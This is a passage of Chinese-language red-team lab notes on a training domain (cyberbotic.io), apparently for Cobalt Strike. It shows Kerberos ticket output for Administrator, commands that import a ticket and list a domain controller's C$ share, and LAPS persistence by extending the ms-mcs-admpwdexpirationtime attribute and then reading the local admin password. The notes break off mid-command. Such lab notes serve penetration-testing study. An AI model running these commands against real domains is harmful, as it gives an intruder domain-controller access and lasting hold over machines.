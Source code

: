   ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  Administrator
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  3/1/2022 2:22:55 PM
  EndTime                  :  3/2/2022 12:22:55 AM
  RenewTill                :  3/8/2022 2:22:55 PM
  Flags                    :  name-canonicalize, pre-authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  WVE8rl7BfHlOdAPGq7cjJw==
  ASREP (key)              :  5681DDB25CFF9F80C65E4976DB23B0B7
```

把tgt导入到当前session
```
beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-1-tgt.kirbi

beacon> ls \\dc-1.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot

```


# LAPS Persistence

LAPS持久性，主要通过更新密码的过期时间来实现

查看过期时间
```
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime

ms-mcs-admpwdexpirationtime
---------------------------
         132609935231523081
```

更新过期时间
```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

再次查看密码的过期时间
```
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
